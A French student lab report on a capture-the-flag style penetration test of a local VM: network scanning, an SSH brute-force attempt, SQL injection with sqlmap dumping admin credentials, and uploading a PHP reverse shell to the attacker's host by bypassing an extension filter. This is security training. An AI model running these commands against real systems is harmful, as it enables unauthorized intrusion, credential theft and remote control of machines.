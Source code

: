 # Rapport du TP4

Comme d'habitude on commence par scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`
![1732280959237](image/rapport-tp4/1732280959237.png)

Cela nous permet d'obtenir l'adresse ip de la machine que l'on souhaite attaquer : 10.0.2.7/24

on commence par faire une analyse détaillée de tous les ports ouverts.
`nmap -sC -sV -A -p- 10.0.2.7`

![1732281030145](image/rapport-tp4/1732281030145.png)

On voit que 2 ports sont ouverts : le 22 et le 80.

## Port 22

On sait que le port 22 correspont à ssh, donc on va faire une attaque brut force en utilisant hydra
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.7`

![1732286142457](image/rapport-tp4/1732286142457.png)

En testant plusieurs fichiers txt différents on constate que ça échoue.


## Port 80

Il s'agit d'un serveur web, je me rend donc à l'url 10.0.2.7 et je tombe sur un blog

![1732281931595](image/rapport-tp4/1732281931595.png)

En cliquand sur le lien de "test" et en ajoutant un caractère (virugle / apostrophe) dans l'url, j'obtiens un message m'indiquant une erreur de syntaxe SQL.

![1732282094489](image/rapport-tp4/1732282094489.png)

Je sais donc qu'il y a du SQL et je vais pouvoir utiliser l'outil SQLMap sur cette url pour tenter de trouver des failles.

Avec l'option "--db", on cherche à énumérer les bases de données. L'option "--batch" pour ne pas avoir à confirmer les entrées dans le terminal, cela permet de faire les choix par défaut.
`sqlmap -u http://10.0.2.7/cat.php?id=1 --dbs --batch`

Cette commande nous informe de l'existance de 2 bases de données : information_schema et photoblog.

![1732283321308](image/rapport-tp4/1732283321308.png)


On va maintenant essayer de récupérer toutes les tables de la base de données information_schema

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D information_schema --tables`

![1732284725781](image/rapport-tp4/1732284725781.png)

Je ne remarque rien de spécial.

On essaye donc de récupérer toutes les tables de la base de données photoblog

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D photoblog --tables`

![1732284864154](image/rapport-tp4/1732284864154.png)

Cette fois-ci on observe une table users qui peut nous intéresser pour potentiellement obtenir des identifiants de connexion.

La commande suivante nous permet de tirer des informations des utilisateurs de la base de données photoblog avec l'option "-D" pour spécifier la base de données photoblog et "-T" pour spécifier que l'on veut rechercher dans la table users. "--dump" permet d'extraire des informations de la table.

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D photoblog -T users --dump --batch`

![1732285222603](image/rapport-tp4/1732285222603.png)

La commande nous affiche un user (admin) avec son mot de passe (P4ssw0rd).

En retournant sur google à l'url "http://10.0.2.7" on peut se rendre dans l'onglet admin et entrer les identifiants de connexion

![1732285546343](image/rapport-tp4/1732285546343.png)

Cela nous redirige vers la page de gestion des utilisateurs

![1732285714579](image/rapport-tp4/1732285714579.png)

Etant donné que PHP est utilisé gérer les requêtes, on peut essayer de générer un payload PHP pour attaquer la cible. Un payload PHP est un morceau de code PHP que l'on va insérer dans le serveur cible afin d'obtenir un shell pour nous permettre de contrôler le système à distance.

On va générer un script PHP contenant un reverse payload. Ce script va établir une connexion vers l'adresse IP 10.0.2.4 (l'ip de ma machine hote) sur le port (1234).

On va faire une copie d'un payload préinstallé sur la machine

`cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/script.php`

Maintenant on va modifier ce fichier "script.php" afin de faire correspondre l'ip (ip hôte) et le numéro de port (1234).

![1732293885837](image/rapport-tp4/1732293885837.png)

Je peux ouvrir une connexion netcat qui va écouter sur le port 1234 de la machine hote.

`nc -lvp 1234`

L'option -l permet d'écouter sur le port 1234 (listen), l'option -v ajoute de la verbosité et l'option -p permet de spécifier le port.


Sur le site web, je clique sur ajouter une image. En essayant d'importer le "script.php", et j'ai alors eu un message d'erreur indiquant "NO PHP!!" qui s'affiche.

![1732289222546](image/rapport-tp4/1732289222546.png)

Pour bypass cette erreur, on peut modifier le nom du fichier de "payload.php"  en "payload.pHP". Puis on le réimporte, il n'ya a pas d'erreur. 

![1732294916166](image/rapport-tp4/1732294916166.png)

Enfin, en cliquant sur le script dans la liste, ce dernier s'execute et netcat intercepte la connexion sur le port 1234, me redirigeant directement sur le terminal de la machine cible.

![1732294208906](image/rapport-tp4/1732294208906.png)

Je peux vérifier que je suis bien connecté à la machine cible avec la commande "ip addr". On retrouve bien l'ip `10.0.2.7`.

![1732295085822](image/rapport-tp4/1732295085822.png)
